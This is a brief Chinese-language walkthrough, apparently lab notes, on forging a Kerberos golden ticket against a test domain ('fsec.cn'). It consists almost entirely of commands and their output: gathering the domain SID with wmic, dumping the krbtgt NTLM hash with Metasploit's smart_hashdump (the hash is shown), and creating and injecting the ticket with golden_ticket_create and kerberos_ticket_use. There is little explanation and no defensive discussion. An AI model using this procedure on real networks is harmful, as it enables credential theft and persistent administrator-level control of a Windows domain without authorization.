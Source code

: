 相关的信息搜集：

```
1.域名称     ipconfig/all   --->fsec.cn
2.域的SID值   wmic useraccount get name,sid --->
         Administrator  S-1-5-21-4260809481-1314229568-1029525523-500
3.域的KRBTGT账户NTLM密码哈希 run windows/gather/smart_hashdump  --->
        krbtgt:502:aad3b435b51404eeaad3b435b51404ee:72a43883e0149a585685b648399c6d40:::
4.伪造用户名   farmsec
```

![image-20230115153253593](../../images//image-20230115153253593.png)

![image-20230115153229272](../../images//image-20230115153229272.png)

使用metasploit制作票据：

```
golden_ticket_create -d fsec.cn -k 72a43883e0149a585685b648399c6d40 -u farmsec -s S-1-5-21-4260809481-1314229568-1029525523 -t /root/golden

将票据导入至域控中：
kerberos_ticket_purge
kerberos_ticket_use /root/2
列出票据：
kerberos_ticket_list
```

![image-20230115153705123](../../images//image-20230115153705123.png)
